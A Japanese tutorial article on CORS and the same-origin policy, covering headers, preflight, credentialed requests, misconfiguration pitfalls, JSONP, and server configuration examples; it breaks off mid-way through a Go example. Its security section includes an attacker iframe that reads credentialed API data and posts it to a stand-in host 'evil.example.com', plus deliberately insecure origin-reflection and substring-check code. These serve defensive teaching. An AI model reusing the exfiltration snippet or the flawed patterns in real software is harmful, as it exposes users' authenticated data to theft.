




# CORS（Cross-Origin Resource Sharing）— ブラウザセキュリティの要と越境リソース共有の仕組み

## 1. 背景と動機

### 1.1 Webの成り立ちと「信頼」の境界

Webの初期設計において、ページは基本的に静的なドキュメントであり、異なるサーバーのリソースを動的に取得・操作するという発想は存在しなかった。しかし、JavaScriptの登場とXMLHttpRequest（XHR）の普及により、Webページはサーバーと非同期に通信し、動的にコンテンツを更新できるようになった。この進化は、Webを「ドキュメントの閲覧システム」から「アプリケーションプラットフォーム」へと変貌させた。

だが、この強力な通信能力は深刻なセキュリティ問題を引き起こす。もし悪意のあるWebページが、ユーザーのブラウザを経由して銀行サイトのAPIを自由に呼び出せるとしたらどうなるか。ブラウザにはCookieやセッション情報が保存されているため、攻撃者はユーザーの認証済みセッションを利用してあらゆる操作を行えてしまう。この問題に対処するために生まれた根本的なセキュリティ機構が、同一オリジンポリシー（Same-Origin Policy、以下SOP）である。

### 1.2 時代の変化——マッシュアップとAPIエコノミー

SOPはWebのセキュリティを確保する上で不可欠な機構だが、現代のWebの在り方とは緊張関係にある。2005年頃からのWeb 2.0の潮流は、複数のサービスのAPIを組み合わせるマッシュアップを生み出した。Google Maps APIとレストラン情報APIを組み合わせた地図アプリ、TwitterのフィードとInstagramの写真を統合したダッシュボード——こうしたアプリケーションは、必然的に異なるオリジンのリソースにアクセスする必要がある。

さらに現代では、フロントエンドとバックエンドを異なるドメインやポートで運用するSPA（Single Page Application）アーキテクチャが一般的であり、マイクロサービスの普及により、一つのアプリケーションが複数のオリジンのAPIを呼び出すことは日常的な要件となっている。

SOPの制約を安全に緩和し、正当なクロスオリジン通信を可能にする仕組み——それがCORS（Cross-Origin Resource Sharing）である。

## 2. 同一オリジンポリシー（Same-Origin Policy）

### 2.1 オリジンの定義

CORSを理解するには、まず「オリジン」の定義を正確に理解する必要がある。オリジンは以下の三つの要素の組み合わせで定義される。

1. **スキーム（プロトコル）**: `http`、`https` など
2. **ホスト（ドメイン）**: `example.com`、`api.example.com` など
3. **ポート**: `80`、`443`、`8080` など

これら三つの要素が**すべて完全に一致**する場合のみ、二つのURLは「同一オリジン」とみなされる。以下の表で具体例を示す。

| URL A | URL B | 同一オリジンか | 理由 |
|---|---|---|---|
| `https://example.com/page1` | `https://example.com/page2` | はい | パスが異なるだけ |
| `https://example.com` | `http://example.com` | いいえ | スキームが異なる |
| `https://example.com` | `https://www.example.com` | いいえ | ホストが異なる |
| `https://example.com` | `https://example.com:8443` | いいえ | ポートが異なる |
| `https://example.com:443` | `https://example.com` | はい | HTTPSのデフォルトポートは443 |

注目すべきは、サブドメインが異なるだけでも別オリジンとして扱われる点である。`api.example.com` と `www.example.com` は同一組織が運用しているとしても、ブラウザの視点からは別オリジンである。

### 2.2 SOPが制限するもの

SOPはブラウザに実装されたセキュリティ機構であり、以下の操作を制限する。

**制限される操作（読み取り）:**
- `XMLHttpRequest` / `fetch` による異なるオリジンへのリクエストのレスポンス読み取り
- 異なるオリジンの `iframe` のDOM操作
- 異なるオリジンの `canvas` に描画された画像データの読み取り

**制限されない操作（埋め込み・書き込み）:**
- `<script src="...">` による外部スクリプトの読み込み
- `<link rel="stylesheet" href="...">` による外部CSSの読み込み
- `` による外部画像の表示
- `<video>` / `<audio>` による外部メディアの再生
- `<form action="...">` によるフォーム送信

この非対称性は重要である。SOPは「クロスオリジンの読み取り」を制限するが、「クロスオリジンへの書き込み（送信）」は基本的に許可している。これは、リンクやフォーム送信といったWebの基本的な機能を維持するための設計判断である。

### 2.3 SOPが存在する理由

SOPが存在する根本的な理由は、**ブラウザがユーザーの認証情報（Cookie、セッショントークンなど）を自動的にリクエストに付与する**という仕組みにある。

攻撃シナリオを具体的に考えてみよう。

```
1. ユーザーが bank.example.com にログインし、セッションCookieがブラウザに保存される
2. ユーザーが悪意のあるサイト evil.example.com にアクセスする
3. evil.example.com のJavaScriptが以下のリクエストを送る:
   fetch('https://bank.example.com/api/transfer', {
     method: 'POST',
     body: JSON.stringify({ to: 'attacker', amount: 1000000 })
   })
4. ブラウザは bank.example.com のCookieを自動的に付与してリクエストを送信する
```

SOPがなければ、このリクエストのレスポンスが攻撃者のスクリプトから読み取り可能になる。たとえば、残高情報や取引履歴が漏洩する。SOPはこの「レスポンスの読み取り」を阻止することで、攻撃者が機密情報を窃取することを防いでいる。

ただし、上記の例でリクエスト自体は送信される点に注意が必要である。SOPはレスポンスの読み取りを防ぐが、リクエストの送信自体を防ぐわけではない（これがCSRF攻撃が成立する理由でもある）。この「送信は許可するがレスポンスの読み取りを制限する」というモデルは、CORSの動作を理解する上で極めて重要である。

## 3. CORSとは何か

### 3.1 定義と基本概念

CORS（Cross-Origin Resource Sharing）は、W3Cが策定した仕様であり、サーバーがHTTPレスポンスヘッダーを通じて「どのオリジンからのクロスオリジンリクエストを許可するか」をブラウザに伝えるメカニズムである。2014年にW3C勧告となり、現在はすべての主要ブラウザで実装されている。

核心的なアイデアは単純である。**サーバーが明示的に許可を宣言したオリジンからのリクエストに対して、ブラウザはSOPの制限を緩和する**。つまり、CORSはSOPを「無効化」するのではなく、SOPの上に構築された「管理された例外」の仕組みである。

### 3.2 CORSの動作原理

CORSの動作は、ブラウザとサーバーの協調によって成立する。

1. ブラウザがクロスオリジンリクエストを検知する
2. ブラウザがリクエストに `Origin` ヘッダーを自動的に付与する
3. サーバーが `Access-Control-Allow-Origin` などのCORSレスポンスヘッダーを返す
4. ブラウザがレスポンスヘッダーを検査し、許可されていればレスポンスをJavaScriptに公開する



重要なのは、**CORSの制御はすべてブラウザ側で行われる**という点である。サーバーはヘッダーを返すだけであり、リクエストの遮断はブラウザが行う。したがって、`curl` やサーバーサイドのHTTPクライアントからのリクエストにはCORSの制限は適用されない。CORSはあくまで「ブラウザ上で実行されるJavaScriptからのクロスオリジンアクセス」を制御する仕組みである。

### 3.3 CORSが必要な場面

以下のようなケースで、CORSの設定が必要になる。

- **SPAとAPIサーバーの分離**: `app.example.com` でホストされるReactアプリが `api.example.com` のAPIを呼び出す
- **マイクロサービスアーキテクチャ**: フロントエンドが複数のバックエンドサービスと通信する
- **CDNからの静的リソース配信**: WebフォントやJavaScriptライブラリをCDNから配信する
- **サードパーティAPI連携**: Google Maps API、Stripe API など外部サービスの呼び出し
- **開発環境**: フロントエンド開発サーバー（`localhost:3000`）からバックエンドサーバー（`localhost:8080`）へのアクセス

## 4. 単純リクエストとプリフライトリクエスト

CORSにおいて、ブラウザはリクエストの内容に応じて動作を変える。この分類を理解することがCORSの実践的な運用の鍵となる。

### 4.1 単純リクエスト（Simple Request）

以下のすべての条件を満たすリクエストは「単純リクエスト」として扱われ、プリフライトなしで直接送信される。

**メソッドの条件:**
- `GET`
- `HEAD`
- `POST`

**ヘッダーの条件（手動で設定できるもの）:**
- `Accept`
- `Accept-Language`
- `Content-Language`
- `Content-Type`（ただし値が以下のいずれかに限る）
  - `application/x-www-form-urlencoded`
  - `multipart/form-data`
  - `text/plain`

これらの条件は、HTMLフォームから送信可能なリクエストに対応している。歴史的にHTMLフォームはCORSが存在する以前からクロスオリジンで送信可能だったため、これらを「単純リクエスト」として特別扱いしている。

単純リクエストの場合、ブラウザは以下のように動作する。



ここで極めて重要な点がある。**CORSエラーが発生しても、サーバー側ではリクエストは正常に処理されている**。サーバーは200 OKを返し、レスポンスボディにはデータが含まれている。ブラウザはレスポンスヘッダーを検証した後に、JavaScriptへのレスポンスの公開を拒否しているだけである。つまり、CORSはデータの読み取りを防ぐが、サーバーへのリクエスト送信自体は防がない。

### 4.2 プリフライトリクエスト（Preflight Request）

単純リクエストの条件を満たさないリクエスト——たとえば `PUT`、`DELETE` メソッドの使用、`Content-Type: application/json` の指定、カスタムヘッダーの付与など——は、ブラウザによって自動的に「プリフライト」処理が行われる。

プリフライトとは、実際のリクエストを送信する前に、`OPTIONS` メソッドを用いてサーバーに「このリクエストを送っても大丈夫か？」と事前確認を行う仕組みである。



### 4.3 プリフライトが存在する理由

プリフライトの目的は、**CORS以前のサーバーを保護すること**である。

CORSが策定される以前に構築されたサーバーは、ブラウザからの `DELETE` リクエストや `Content-Type: application/json` のリクエストは来ないという前提で設計されていた。SOPがそのようなリクエストを防いでいたからである。もしCORSの導入によって突然これらのリクエストがブラウザから飛んでくるようになると、既存のサーバーが意図しない操作を受ける危険がある。

プリフライトは、サーバーが「CORSに対応していること」を明示的に宣言する機会を提供する。`OPTIONS` リクエストに対して適切なCORSヘッダーを返さないサーバーは、CORS以前のサーバーとみなされ、実際のリクエストは送信されない。

一方、単純リクエスト（`GET`、`POST` with form data）はCORS以前からブラウザが送信可能だったため、プリフライトの保護は不要である。既存のサーバーは既にこれらのリクエストを受け取る前提で設計されている。

### 4.4 プリフライトリクエストの詳細

プリフライトの `OPTIONS` リクエストには以下のヘッダーが含まれる。

| ヘッダー | 説明 | 例 |
|---|---|---|
| `Origin` | リクエスト元のオリジン | `https://app.example.com` |
| `Access-Control-Request-Method` | 実際のリクエストで使用するメソッド | `PUT` |
| `Access-Control-Request-Headers` | 実際のリクエストで使用するカスタムヘッダー | `Content-Type, Authorization` |

サーバーは `OPTIONS` リクエストに対し、以下のヘッダーを含むレスポンスを返す。

| ヘッダー | 説明 | 例 |
|---|---|---|
| `Access-Control-Allow-Origin` | 許可するオリジン | `https://app.example.com` |
| `Access-Control-Allow-Methods` | 許可するHTTPメソッド | `GET, POST, PUT, DELETE` |
| `Access-Control-Allow-Headers` | 許可するリクエストヘッダー | `Content-Type, Authorization` |
| `Access-Control-Max-Age` | プリフライト結果のキャッシュ時間（秒） | `86400` |

## 5. CORSレスポンスヘッダーの詳細

### 5.1 Access-Control-Allow-Origin

最も基本的なCORSヘッダーであり、クロスオリジンリクエストを許可するオリジンを指定する。

```
Access-Control-Allow-Origin: https://app.example.com
```

**指定方法は三つ:**

1. **特定のオリジン**: `Access-Control-Allow-Origin: https://app.example.com`
2. **ワイルドカード**: `Access-Control-Allow-Origin: *`
3. **null**: `Access-Control-Allow-Origin: null`（特殊なケース。セキュリティ上推奨されない）

重要な制約として、**このヘッダーには単一のオリジンまたはワイルドカードしか指定できない**。複数のオリジンをカンマ区切りで列挙することは仕様上許可されていない。

```
// これは無効
Access-Control-Allow-Origin: https://app1.example.com, https://app2.example.com
```

複数のオリジンを許可したい場合は、サーバー側でリクエストの `Origin` ヘッダーを検証し、許可リストに含まれていれば動的にレスポンスヘッダーを設定するアプローチが必要である。

```python
# Python (Flask) example
ALLOWED_ORIGINS = [
    "https://app1.example.com",
    "https://app2.example.com",
    "https://admin.example.com"
]

@app.after_request
def add_cors_headers(response):
    origin = request.headers.get("Origin")
    if origin in ALLOWED_ORIGINS:
        response.headers["Access-Control-Allow-Origin"] = origin
        response.headers["Vary"] = "Origin"
    return response
```

ここで `Vary: Origin` ヘッダーを設定することが重要である。これにより、CDNやプロキシのキャッシュが、オリジンごとに異なるレスポンスを適切にキャッシュする。`Vary: Origin` がないと、あるオリジンへの応答が別のオリジンに対してキャッシュから返されてしまい、CORSエラーが発生する可能性がある。

### 5.2 Access-Control-Allow-Methods

プリフライトレスポンスで使用され、許可するHTTPメソッドを列挙する。

```
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, PATCH
```

単純リクエストのメソッド（`GET`、`HEAD`、`POST`）は、このヘッダーに含まれていなくてもデフォルトで許可される。ただし、明示的に列挙しておくことが推奨される。

### 5.3 Access-Control-Allow-Headers

プリフライトレスポンスで使用され、実際のリクエストで使用を許可するHTTPヘッダーを列挙する。

```
Access-Control-Allow-Headers: Content-Type, Authorization, X-Request-ID
```

CORS仕様でセーフリストに含まれるヘッダー（`Accept`、`Accept-Language`、`Content-Language`、`Content-Type`（一部の値に限る））は、このヘッダーに含まれていなくてもデフォルトで許可される。

`Authorization` ヘッダーは特に注意が必要で、セーフリストに含まれないため、Bearer トークン認証を使用する場合は明示的に許可する必要がある。これを忘れると、JWTベースの認証が機能しないという問題が頻繁に発生する。

### 5.4 Access-Control-Allow-Credentials

クロスオリジンリクエストにおいて、Cookie、Authorization ヘッダー、TLSクライアント証明書などの認証情報の送受信を許可するかどうかを示す。

```
Access-Control-Allow-Credentials: true
```

このヘッダーが設定されていない場合（または `false` の場合）、ブラウザは以下の動作を行う。

- リクエストに Cookie を付与しない
- レスポンスの `Set-Cookie` ヘッダーを無視する
- `Authorization` ヘッダーを含むリクエストを拒否する

クライアント側でも、`credentials` オプションを明示的に設定する必要がある。

```javascript
// Fetch API
fetch("https://api.example.com/user", {
  credentials: "include"  // "same-origin"(default), "include", "omit"
});

// XMLHttpRequest
const xhr = new XMLHttpRequest();
xhr.withCredentials = true;
```

### 5.5 Access-Control-Max-Age

プリフライトリクエストの結果をブラウザがキャッシュする時間を秒単位で指定する。

```
Access-Control-Max-Age: 86400
```

この値が設定されている場合、ブラウザは指定された時間内は同一オリジン・同一リソースに対するプリフライトリクエストを省略する。これにより、プリフライトによるリクエストの倍増（OPTIONSリクエスト + 実際のリクエスト）のパフォーマンス影響を軽減できる。

ブラウザごとに最大値が制限されている点に注意が必要である。

| ブラウザ | 最大キャッシュ時間 |
|---|---|
| Chrome | 7200秒（2時間） |
| Firefox | 86400秒（24時間） |
| Safari | 604800秒（7日間） |

### 5.6 Access-Control-Expose-Headers

デフォルトでは、クロスオリジンレスポンスにおいてJavaScriptがアクセスできるヘッダーは以下のCORS仕様のセーフリストに限定される。

- `Cache-Control`
- `Content-Language`
- `Content-Length`
- `Content-Type`
- `Expires`
- `Last-Modified`
- `Pragma`

これ以外のカスタムヘッダー（例: `X-Request-ID`、`X-RateLimit-Remaining`）をJavaScriptから読み取れるようにするには、`Access-Control-Expose-Headers` で明示的に指定する必要がある。

```
Access-Control-Expose-Headers: X-Request-ID, X-RateLimit-Remaining, X-RateLimit-Limit
```

これを設定しないと、サーバーがカスタムヘッダーを返していても、クライアント側のJavaScriptからは見えないという問題が発生する。ページネーション情報やレートリミット情報をヘッダーで返すAPIでは特に注意が必要である。

## 6. 認証情報を伴うリクエスト（Credentialed Requests）

### 6.1 認証情報付きリクエストの特殊ルール

認証情報を伴うクロスオリジンリクエストには、セキュリティ上の理由から追加の制約が課される。

**ワイルドカードの禁止:**

認証情報を伴うリクエストでは、以下のヘッダーにワイルドカード（`*`）を使用することが**禁止**されている。

```
// これは認証情報付きリクエストでは無効
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: *
Access-Control-Allow-Headers: *
```

代わりに、具体的な値を指定しなければならない。

```
Access-Control-Allow-Origin: https://app.example.com
Access-Control-Allow-Methods: GET, POST, PUT
Access-Control-Allow-Headers: Content-Type, Authorization
Access-Control-Allow-Credentials: true
```

この制約は、認証情報を持つリクエストの危険性を反映している。もしワイルドカードが許可されていたら、任意の悪意あるサイトがユーザーの認証済みセッションを利用してAPIにアクセスできてしまう。

### 6.2 認証情報付きリクエストのフロー



### 6.3 Third-Party Cookie の影響

近年のブラウザはサードパーティCookieの制限を強化しており、これがCORSの認証情報付きリクエストに影響を与えている。

- **Chrome**: サードパーティCookieの段階的廃止を進めている
- **Safari**: ITP（Intelligent Tracking Prevention）により、多くのサードパーティCookieがブロックされる
- **Firefox**: ETP（Enhanced Tracking Protection）による制限

このため、クロスオリジンの認証には Cookie よりも `Authorization` ヘッダーによるBearerトークン方式が推奨されるケースが増えている。

## 7. セキュリティ上の考慮事項

### 7.1 CORS設定ミスによる脆弱性

CORSの設定ミスは深刻なセキュリティ脆弱性を引き起こす。以下に代表的なパターンを示す。

#### パターン1: ワイルドカードと認証情報の組み合わせ

```
// 仕様上、ブラウザはこの組み合わせを拒否する
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

この組み合わせはブラウザが拒否するため直接的な脆弱性にはならないが、開発者がこの制約を「回避」しようとして以下のような実装をしてしまうことがある。

```javascript
// DANGEROUS: Origin header reflection
// Never do this in production
app.use((req, res, next) => {
  res.setHeader("Access-Control-Allow-Origin", req.headers.origin);
  res.setHeader("Access-Control-Allow-Credentials", "true");
  next();
});
```

このコードは、リクエストの `Origin` ヘッダーをそのまま `Access-Control-Allow-Origin` に反映している。これは実質的に「すべてのオリジンを認証情報付きで許可する」ことと同じであり、極めて危険である。攻撃者は悪意のあるサイトからユーザーの認証済みセッションを利用してAPIにアクセスし、機密データを窃取できる。

#### パターン2: null オリジンの許可

```
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

`Origin: null` は、サンドボックス化された `iframe` やローカルファイルからのリクエスト、リダイレクト後のリクエストなどで送信される。`null` を許可すると、攻撃者がサンドボックス化された `iframe` を使ってこの制限を回避できる。

```html
<!-- Attacker's page -->
<iframe sandbox="allow-scripts" srcdoc="
  <script>
    fetch('https://api.example.com/sensitive-data', {
      credentials: 'include'
    })
    .then(r => r.json())
    .then(data => {
      // Send stolen data to attacker's server
      fetch('https://evil.example.com/steal', {
        method: 'POST',
        body: JSON.stringify(data)
      });
    });
  </script>
"></iframe>
```

#### パターン3: 不十分なオリジン検証

```python
# DANGEROUS: Substring matching
origin = request.headers.get("Origin")
if "example.com" in origin:
    response.headers["Access-Control-Allow-Origin"] = origin
```

この実装では、`evil-example.com` や `example.com.evil.com` のようなドメインも許可されてしまう。オリジンの検証は完全一致または厳密な正規表現で行わなければならない。

```python
# Safe: Exact match against allowlist
ALLOWED_ORIGINS = {
    "https://app.example.com",
    "https://admin.example.com"
}

origin = request.headers.get("Origin")
if origin in ALLOWED_ORIGINS:
    response.headers["Access-Control-Allow-Origin"] = origin
    response.headers["Vary"] = "Origin"
```

### 7.2 CORSだけでは防げない攻撃

CORSはあくまでブラウザベースの制御であり、以下の攻撃を防ぐものではない。

- **CSRF（Cross-Site Request Forgery）**: 単純リクエスト（`GET`、`POST` with form data）はプリフライトなしで送信されるため、CORSだけではCSRFを防げない。CSRFトークンの使用が別途必要である。
- **サーバーサイドからのリクエスト**: CORSはブラウザの機能であり、サーバーサイドのHTTPクライアントやcurlからのリクエストには適用されない。APIの保護にはCORS以外の認証・認可メカニズムが必要である。
- **XSS（Cross-Site Scripting）**: サイトがXSSの脆弱性を持つ場合、攻撃者のスクリプトは同一オリジンとして実行されるため、CORSの保護は意味をなさない。

### 7.3 セキュアなCORS設定の原則

1. **許可するオリジンを明示的に列挙する**: ワイルドカードの使用は、公開APIなど認証情報を必要としないリソースに限定する
2. **`Vary: Origin` を設定する**: 動的にオリジンを設定する場合は必ずキャッシュの整合性を保つ
3. **認証情報付きリクエストでは絶対にワイルドカードを使用しない**: リクエストの `Origin` ヘッダーを無検証で反映してはならない
4. **不要なメソッドやヘッダーは許可しない**: 最小権限の原則に従い、必要なものだけを許可する
5. **`null` オリジンを許可しない**: セキュリティ上の隙を生む
6. **本番環境では `Access-Control-Max-Age` を適切に設定する**: プリフライトのオーバーヘッドを軽減しつつ、設定変更を適時反映できるバランスを取る

## 8. CORS と JSONP の比較

### 8.1 JSONP の仕組み

CORSが標準化される以前、クロスオリジン通信の主要な手段としてJSONP（JSON with Padding）が広く使われていた。JSONPは `<script>` タグがSOPの制限を受けないことを利用したハックである。

```html
<!-- Client side -->
<script>
function handleResponse(data) {
  console.log(data);
}
</script>
<script src="https://api.example.com/data?callback=handleResponse"></script>
```

```javascript
// Server response (not JSON, but JavaScript)
handleResponse({"name": "Alice", "age": 30});
```

`<script>` タグで読み込まれたコードは同一オリジンとして実行されるため、SOPの制限を回避できる。

### 8.2 JSONP の問題点

JSONPには多くのセキュリティ上・機能上の問題がある。

| 項目 | JSONP | CORS |
|---|---|---|
| 対応メソッド | GETのみ | すべてのHTTPメソッド |
| セキュリティ | XSSリスクが高い（任意のJavaScriptが実行可能） | サーバーが許可を明示的に制御 |
| エラーハンドリング | 困難（scriptタグのonerrorは情報が限定的） | HTTPステータスコードで標準的に処理可能 |
| リクエストヘッダー | 制御不可 | カスタムヘッダーの設定が可能 |
| レスポンス形式 | JavaScriptのみ | 任意の形式（JSON、XML、バイナリなど） |
| 認証 | Cookieのみ | Cookie、Authorizationヘッダーなど |
| 標準化 | 非標準のハック | W3C標準仕様 |

JSONPの最も深刻な問題は、サーバーから返されるレスポンスが**任意のJavaScript**として実行されることである。サーバーが侵害された場合、攻撃者は任意のコードをクライアントで実行できてしまう。

現代のWebアプリケーションでJSONPを使用する正当な理由はほぼ存在しない。すべての主要ブラウザがCORSをサポートしているため、新規開発ではCORSを使用すべきである。

## 9. 実践的なCORS設定例

### 9.1 Nginx

```nginx
# Nginx CORS configuration example
server {
    listen 443 ssl;
    server_name api.example.com;

    # CORS headers
    set $cors_origin "";
    set $cors_credentials "";
    set $cors_methods "";
    set $cors_headers "";

    if ($http_origin ~* "^https://(app|admin)\.example\.com$") {
        set $cors_origin $http_origin;
        set $cors_credentials "true";
        set $cors_methods "GET, POST, PUT, DELETE, OPTIONS";
        set $cors_headers "Content-Type, Authorization, X-Request-ID";
    }

    # Handle preflight requests
    if ($request_method = OPTIONS) {
        add_header "Access-Control-Allow-Origin" $cors_origin always;
        add_header "Access-Control-Allow-Methods" $cors_methods always;
        add_header "Access-Control-Allow-Headers" $cors_headers always;
        add_header "Access-Control-Allow-Credentials" $cors_credentials always;
        add_header "Access-Control-Max-Age" 86400 always;
        add_header "Content-Length" 0;
        add_header "Content-Type" "text/plain charset=UTF-8";
        return 204;
    }

    # Add CORS headers to all responses
    add_header "Access-Control-Allow-Origin" $cors_origin always;
    add_header "Access-Control-Allow-Credentials" $cors_credentials always;
    add_header "Access-Control-Expose-Headers" "X-Request-ID, X-RateLimit-Remaining" always;
    add_header "Vary" "Origin" always;

    location /api/ {
        proxy_pass http://backend;
    }
}
```

### 9.2 Express.js (Node.js)

```javascript
// Express.js CORS middleware
const cors = require("cors");

const allowedOrigins = [
  "https://app.example.com",
  "https://admin.example.com",
];

const corsOptions = {
  origin: function (origin, callback) {
    // Allow requests with no origin (server-to-server, curl, etc.)
    if (!origin) return callback(null, true);

    if (allowedOrigins.includes(origin)) {
      callback(null, true);
    } else {
      callback(new Error("Not allowed by CORS"));
    }
  },
  methods: ["GET", "POST", "PUT", "DELETE", "PATCH"],
  allowedHeaders: ["Content-Type", "Authorization", "X-Request-ID"],
  exposedHeaders: ["X-Request-ID", "X-RateLimit-Remaining"],
  credentials: true,
  maxAge: 86400,
};

app.use(cors(corsOptions));
```

### 9.3 Go (net/http)

```go
package main

import (
	"net/http"
	"slices"
)

var allowedOrigins = []string{
	"https://app.example.com",
	"https://admin.example.com",
}

func corsMiddleware(next http.Handler) http.Handler {
	return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
		origin := r.Header.Get("Origin")

		if slices.Contains(allowedOrigins, origin) {
			w.Header().Set("Access-Control-Allow-Origin", origin)
			w.Header().Set("Access-Control-Allow-Credentials", "true")
			w.Header().Set("Access-Control-Expose-Headers", "X-Request-ID")
			w.Header().Set("Vary", "Origin")
		}

		// Handle preflight
		if r.Method == http.MethodOptions {
			w.Header().Set("Access-Control-Allow-Methods", "GET, POST, PUT, DELETE")
